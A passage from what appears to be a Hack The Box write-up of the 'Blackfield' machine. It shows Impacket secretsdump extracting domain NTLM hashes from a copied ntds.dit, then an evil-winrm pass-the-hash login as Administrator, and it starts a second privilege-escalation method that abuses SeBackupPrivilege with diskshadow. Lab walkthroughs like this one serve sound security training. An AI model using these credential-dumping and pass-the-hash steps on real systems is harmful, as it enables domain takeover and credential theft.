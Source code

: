 ```shell
cfx:  ~/Documents/htb/blackfield
→ secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:9e3d10cc537937888adcc0d918813a24:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:4c67bfbc7834b2f39fae7138f717dcbd:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
[..SNIP..]
```
### Administrator Shell

With newly acquired Administrator's hash, we can use Evil-WinRM to get a shell:

```shell
cfx:  ~/Documents/htb/blackfield
→ evil-winrm -i 10.10.10.192 -u Administrator -H '184fb5e5178480be64824d4cd53b99ee'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
blackfield\administrator
```
Grabbing `root.txt`:

```shell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> get-content root.txt
49160cc348b7263*****************
```

## PrivEsc Method #2 - diskshadow

In second method, the strategy would be the same to grab `ntds.dit`, but instead we'll use a different windows tool named `diskshadow`.

> Diskshadow.exe is a tool that exposes the functionality offered by the volume shadow copy Service (VSS).

I found a great [**document**](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf) which not only explains on the privilege escalation abusing `SeBackupPrivilege` but also all using many other privileges on windows.

With reference to the commands mentioned under `SeBackupPrivilege` from above documents, we'll create a shadow drive of volume C:
